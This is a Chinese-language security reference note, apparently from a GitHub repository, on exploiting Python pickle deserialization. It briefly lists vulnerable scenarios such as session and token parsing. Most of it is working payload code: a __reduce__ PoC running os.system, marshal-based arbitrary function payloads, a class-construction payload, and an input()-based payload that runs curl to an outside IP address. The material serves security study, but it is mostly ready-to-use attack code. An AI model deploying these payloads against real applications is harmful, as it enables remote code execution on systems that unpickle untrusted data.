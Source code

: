 参考：
	- https://xz.aliyun.com/t/219
	- http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/

可能存在的场景
1. 通常在解析认证token，session的时候。
2. 可能将对象Pickle后存储成磁盘文件。
3. 可能将对象Pickle后在网络中传输。

## poc
```python
#!/usr/bin/env python
#coding: utf-8
__author__ = 'bit4'

import pickle

class genpoc(object):
	def __reduce__(self):
		import os
		s = """echo test >poc.txt"""
		return os.system, (s,) 

e = genpoc()
flag=1
if flag:
	poc = pickle.dumps(e)
	print(poc)
else:
	with open('pickle.pkl', 'wb') as f:
	    pickle.dump(e, f)
```

还有以下3种可用

1. 利用marshal序列化函数

在勾陈的文章说到：
*从python2.6起，包含了一个可以序列化code对象的模块--Marshal。由于python可以在函数当中再导入模块和定义函数，所以我们可以将自己要执行的代码都写到一个函数里foo()*所以有了下面的这个任意函数构造payload。
```python
import base64
import marshal
# python2
def foo():
    import os
    os.system('dir')

payload="""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR."""%base64.b64encode(marshal.dumps(foo.func_code))

pickle.loads(payload)

payload="""ctypes
FunctionType
(cmarshal
loads
(S'%s'
tRc__builtin__
globals
(tRS''
tR(tR."""%marshal.dumps(foo.func_code).encode('string-escape')

pickle.loads(payload)
```

2. 构造新类
```python
payload=pickle.dumps(new.classobj('system', (), {'__getinitargs__':lambda self,arg=('dir',):arg, '__module__': 'os'})())

pickle.loads(payload)
'''
lambda语句可以换成new.function或是types.FunctionType构造。
么new库里面的提到的很多东西都可以转换思路了
'''
```
types可以换成new，因为types.FunctionType和new.function几乎一样


3. 使用input
python2中可以使用input执行命令
```
import pickle

a=b'''c__builtin__\nsetattr\n(c__builtin__\n__import__\n(S'sys'\ntRS'stdin'\ncStringIO\nStringIO\n(S'__import__('os').system('curl 172.27.60.184:12345')'\ntRtRc__builtin__\ninput\n(S'python> '\ntR.'''

pickle.loads(a)
```